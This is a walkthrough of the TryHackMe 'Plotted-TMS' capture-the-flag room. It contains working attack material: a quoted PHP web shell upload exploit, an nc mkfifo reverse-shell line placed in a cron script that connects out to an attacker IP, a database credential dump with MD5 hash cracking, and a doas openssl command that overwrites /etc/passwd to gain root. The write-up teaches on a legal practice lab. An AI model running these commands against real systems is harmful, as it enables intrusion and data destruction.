






# Plotted-TMS
**Date:** January 16th 2023

**Author:** j.info

**Link:** [**Plotted-TMS**](https://tryhackme.com/room/plottedtms) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What is user.txt?
- What is root.txt?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/admin                (Status: 200) [Size: 933]
/index.html           (Status: 200) [Size: 10918]
/shadow               (Status: 200) [Size: 25]
/passwd               (Status: 200) [Size: 25]
```

<br>

## Website Digging

Visiting the main page shows a default Apache2 it works page:



Nothing in the page source code out of the ordinary.

There is no robots.txt to look at.

Looking at /shadow and /passwd both display a base64 encoded string:

```
bm90IHRoaXMgZWFzeSA6RA==
```

Putting that through a decoder:

`echo "bm90IHRoaXMgZWFzeSA6RA==" | base64 -d`

```
not this easy :D
```

And checking out /admin appears to give us a private id_rsa key:



But again, not quite that easy:

`echo "VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE" | base64 -d`

```
Trust me it is not this easy..now get back to enumeration :D
```

Alright, let's take a look at the other site on port 445.

Again a default Apache it works page with nothing interesting in the source code or robots.txt.

Running a gobuster scan:

```
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 279]
/management           (Status: 200) [Size: 14506]
```

Visiting the /management page shows us that it's an Traffic Offense Management System site. Clicking the login button gives us an admin login page:



I run a quick searchsploit to see if there is anything for this system:



Running `searchsploit -m 50221` pulls the exploit I'm going to try first over to my current directory.

Looking at the source code shows us that the login page is vulnerable to SQL injection to bypass the authentication process and login as admin. Using this will log you in without a password:


Looking through the exploit code further shows that it's an upload vulnerability in the drivers list page. It uploads the following payload after asking you to input the url:

```python
url = raw_input("Url: ")
payload_name = "evil.php"
payload_file = "<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>"
```

Running the exploit successfully uploads the shell but doesn't maintain it when you try and enter any commands. You can however manually curl to the URL it lists in the error message after adding the website address in and it works:

`python2 50221.py`


<br>

## System Access

Now to get a working reverse shell. I head over to revshells.com and generate a reverse shell using nc mkfifo and then choosing URL encoding at the bottom right:


Clicking copy adds it to my clipboard and then I start up a listener on my system and use curl to navigate to the URL in screenshot 7 replacing the ls command with the reverse shell command:



And I get a shell back:


While playing around with the webpage I also found that you can simply click your Administrator Admin dropdown in the top right, go to My Account, and then under Avatar upload a php reverse shell and refresh the page which was a bit easier than using the method I first did.

<br>

## System Enumeration

I check `sudo -l` but it requires a password.

Looking in the /home directory shows us 2 other users:

```
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28  2021 plot_admin
drwxr-xr-x  4 ubuntu     ubuntu     4096 Oct 28  2021 ubuntu
```

Nothing much interesting in the ubuntu home directory. Looking in plot_admin shows the user.txt flag but we don't have access to it yet:

```
-rw-rw----  1 plot_admin plot_admin   33 Oct 28  2021 user.txt
```

There is also a tms_back directory that we also don't have access to:

```
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28  2021 tms_backup
```

Looking at /etc/passwd shows that these are the only users on the system with login shells.

We'll likely have to find a way to get access to the plot_admin account so I do a file search for anything owned by that user to see if we can find anything to escalate our privileges with. The only file that comes back outside of the ones we already saw in their home directory is:

`find / -user plot_admin 2>/dev/null`

```
/var/www/scripts/backup.sh
```

Looking at the permissions on that file shows we can view it but not modify it:

```
-rwxrwxr-- 1 plot_admin plot_admin 141 Oct 28  2021 /var/www/scripts/backup.sh
```

Viewing the file:

```
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

So we have a backup script that uses rsync to copy the website files. I check /etc/crontab to see if it runs every so often and it does:

```
* *     * * *   plot_admin /var/www/scripts/backup.sh
```

Looking at our permissions on the directory this script is in shows that we own it. So while we can't edit the file, we can simply delete it, recreate it, and add whatever we want it to do to the new file:

```
ww-data@plotted:/var/www/scripts$ ls -al
total 12
drwxr-xr-x 2 www-data   www-data   4096 Jan 16 22:19 .
```

```
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? y
www-data@plotted:/var/www/scripts$ ls -al
total 8
drwxr-xr-x 2 www-data www-data 4096 Jan 16 22:21 .
drwxr-xr-x 4 root     root     4096 Oct 28  2021 ..
www-data@plotted:/var/www/scripts$
```

And I recreate the file with a nc mkfifo reverse shell in it, which will get run by the plot_admin user giving us a shell with that user:

```
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.0.242 5555 >/tmp/f
```

I `chmod +x` the file to make it executable and then set up a listener on my system and wait for it to connect back. After it does I upgrade the shell so it's interactive:


We're now able to grab out first user.txt flag:

`wc -c /home/plot_admin/user.txt`

```
33 /home/plot_admin/user.txt
```

Checking `sudo -l` shows that it requires a password, so no luck there.

Looking at the tms_backup directory shows us the files from the website. I notice a file called initialize.php which contains a username and password to the database:

```
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
```

I login with the following command:

`mysql -u tms_user -p`

And then run:

`use tms_db`

`select * from users;`

We have 2 users listed, Administrator and Plotted, and password hashes:

```
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                        | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 14d147dc0ba2fed434e7fd176dc87fdc | uploads/1673904720_p.php      | NULL       |    1 | 2021-01-20 14:02:37 | 2023-01-16 21:32:08 |
|  9 | Plotted      | User     | puser    | 1254737c076cf867dc53d60a0364f38e | uploads/1629336240_avatar.jpg | NULL       |    2 | 2021-08-19 09:24:25 | 2021-10-28 07:33:02 |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+------+---------------------+---------------------+
```

You can see the admin user has an avatar of xxxx_p.php which is from earlier when I found you could just upload a php reverse shell as the users avatar.

I run these through hashcat

`hashcat -m 0 -w 3 -D 1,2 hash.txt rockyou.txt`

And it cracks the Plotted users hash, but not the Administrator.

```
1254737c076cf867dc53d60a0364f38e:jsmith123
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hash.txt
Time.Started.....: Mon Jan 16 17:41:01 2023 (1 sec)
Time.Estimated...: Mon Jan 16 17:41:02 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  8763.2 kH/s (3.96ms) @ Accel:2048 Loops:1 Thr:32 Vec:1
Speed.#3.........:  4510.9 kH/s (65.52ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Speed.#*.........: 13274.1 kH/s
Recovered........: 1/2 (50.00%) Digests
```

I try and switch over to the root and ubuntu users using this password, as well as the database password, but no luck.

Nothing else interesting the datbase either.

Checking the system for any out of place SUID files:

`find / -perm /4000 2>/dev/null`

/usr/bin/doas shows up which I don't normally see and decide to investigate it. Looking on GTFOBins doesn't show anything for it.

Looking at the man page shows that it allows you to execute commands as another user. It also mentions that there is a config file located at /etc/doas.conf.


So this looks a lot like sudo -l and it appears we can run openssl as root with no password if I'm reading that correctly.

I tried and failed at getting a reverse shell as root using the GTFOBins instructions. The best I could do was getting it to connect back to me as plot_admin even when using doas, which is odd.

There are a couple other options here though. We can simply use doas openssl to read the /root/root.txt flag, or we can use doas openssl to write a new entry to /etc/passwd or /etc/shadow.

I'm going to choose the latter and get full access as root.

<br>

## Root

I run the following command to remove the password for the root user in /etc/passwd:

`echo "root::0:0:root:/root:/bin/bash" | doas openssl enc -out /etc/passwd`

And then just switch user over and grab the flag:


NOTE: As you can see in the screenshot this wipes out the /etc/passwd file and removes all other users except the root line we added. So, never do it this way in a real customer engagement for obvious reasons!

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- **Decoding** base64 encoded strings
- Using **SQLi** to bypass authentication on a login page
- Finding an exploit on **Exploit-DB** for the Traffic Offense Management System running on port 445 and using it for an initial foothold on the system
- Finding a **cron job** that ran a **bash script** as a different user and putting our own bash script in place of it to escalate our privileges
- Looking in a config file for the database gave us **hard coded user credentials** which we used to login and look through the **MySQL database**, as well as get a **password hash** and crack it using **hashcat**
- Exploiting the fact that we were able to use the **doas** command to **run openssl as root** which allowed us to **modify the /etc/passwd file** and escalate to root

<br>

Many thanks to:
- [**sa.infinity8888**](https://tryhackme.com/p/sa.infinity8888) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)